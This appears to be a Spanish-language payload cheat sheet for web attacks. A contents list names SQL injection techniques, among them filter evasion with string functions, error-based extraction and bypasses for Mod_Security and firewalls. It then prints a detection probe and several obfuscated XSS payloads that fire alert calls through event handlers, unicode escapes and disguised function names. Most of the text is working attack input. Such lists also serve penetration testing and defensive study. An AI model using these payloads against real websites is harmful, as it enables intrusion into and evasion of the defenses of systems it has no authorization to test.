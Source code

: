         * [Sql inyection payload usando upper + reverse + right + sounds like](#Sql-inyection-payload-usando-upper-+-reverse-+-right-+-sounds-like)
        * [SQL injection usando doble reverse + right + if statement + HTML injection](#SQL-injection-usando-doble-reverse-+-right-+-if-statement-+-HTML-injection)
        * [Sql inyection usando las funciones HEX-UNHEX](#Sql-inyection-usando-las-funciones-HEX-UNHEX)
        * [Inyección sql tipo error based usando Extractvalue](#Inyección-sql-tipo-error-based-usando-Extractvalue)
        * [Sql inyection payload usando reverse](#Sql-inyection-payload-usando-reverse)
        * [Sql inyection payload usando extractvalue](#Sql-inyection-payload-usando-extractvalue)
        * [Sql inyection payload + url encode + timing](#Sql-inyection-payload-+-url-encode-+-timing)
        * [JSON Generation Functions](#JSON-Generation-Functions)
    * [Sql inyection + dios sql](#Sql-inyection-+-dios-sql)
    * [Sql inyection Buffer Overflow / Firewall Crash bypass + xss inyection](#Sql-inyection-Buffer-Overflow-/-Firewall-Crash-bypass-+-xss-inyection)
    * [sql inyection payload+ bypass Mod_Security](#sql-inyection-payload+-bypass-Mod_Security)
    * [Sql inyection payload + comment + hex/unhex](#Sql-inyection-payload-+-comment-+-hex/unhex)
    * [Sql inyection payload + url encode](#Sql-inyection-payload-+-url-encode)
        
   
   
  
   
   

### Para detectar errores: sql inyection, xss inyection y HTML inyection

`'"><script>alert(1)</script><h1>d</h1>`

## INYECCIÓNES XSS Y HTML

### h1

```
<h1 onclick=\u0041\u006cert("_Y000!_")>Y00</h1>

<a onclick=\u0041\u006cert("_Y000!_")>Y00</a>

<p onclick=\u0041\u006cert("_Y000!_")>Y00</p>

<marquee onclick=\u0041\u006cert("_Y000!_")>Y00</marquee>

```

### onMouseOver

```
onMouseOver=<script>alert("/XSS BY Y000!/")</script>

</script><h1 onmouseover= top[8680439..toString(30)]("_Y000!_")>

</script><h1 onmouseover=top[/al/.source+/ert/.source]("_Y000!_")>

</script><h1 onmouseover=["_Y000!_"].find(alert)>

</script><h1 onmouseover= (((confirm)))`_Y000!_`>
```
